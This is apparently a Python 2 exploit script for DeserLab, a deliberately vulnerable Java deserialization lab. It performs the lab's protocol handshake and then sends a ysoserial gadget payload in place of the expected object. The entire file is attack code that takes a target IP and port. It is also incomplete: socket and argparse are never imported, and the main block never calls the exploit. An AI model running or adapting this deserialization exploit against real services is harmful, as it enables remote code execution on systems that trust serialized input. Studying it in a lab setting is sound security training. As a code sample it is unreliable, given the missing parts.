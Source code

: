 ```python
import logging
import struct

logging.basicConfig(level=logging.DEBUG, format='%(asctime)s - %(levelname)s - %(message)s')

class deser:
    def __init__(self,tip,tport):
        self.targetip = tip
        self.targetport = int(tport)
        self.s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    
    def connect(self):
        self.s.connect((self.targetip, self.targetport))
    
    def javaserial(self):
        blob = '\xac\xed\x00\x05'
        self.s.sendall(blob)
        logging.debug("server javaserial resp: %s" % self.s.recv(4).encode('hex'))    
    
    def protohello(self):
        header = self.s.recv(2)
        datalength = int(struct.unpack('B',header[1])[0])
        logging.debug("server proto hello %s" % self.s.recv(datalength).encode('hex'))
        blob = '\x77\x04'
        blob2 = '\xf0\x00\xba\xaa'
        self.s.sendall(blob)
        self.s.sendall(blob2)
        
    def protoversion(self):
        header = self.s.recv(2)
        datalength = int(struct.unpack('B',header[1])[0])
        logging.debug("server version %s" % self.s.recv(datalength).encode('hex'))
        blob = '\x77\x02'
        blob2 = '\x01\x01'
        self.s.sendall(blob)
        self.s.sendall(blob2)
          
    def clientname(self):
        blob = '\x77\x09' #depends on username + type length
        blob2 = '\x00\x07\x74\x65\x73\x74\x69\x6e\x67'
        self.s.sendall(blob)
        self.s.sendall(blob2)
    
    def exploit(self, payload_file):
        """
            Normally this is where the HashRequest object is send
            instead we send a ysoserial payload, skipping the first 4 bytes
        """
        payload = ''
        with open(payload_file, 'rb') as content_file:
            payload = content_file.read()
        self.s.sendall(payload[4:])
        logging.debug('after exploit: %s' % self.s.recv(1024))
        
if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='Exploit for DeserLab',epilog='https://nickbloor.co.uk/2017/08/13/attacking-java-deserialization/')
    parser.add_argument('targetip',help='target ip to exploit')
    parser.add_argument('targetport',help='target port to exploit')
    parser.add_argument('payloadfile',help='file with the ysoserial payload')

    myargs = parser.parse_args()
    
```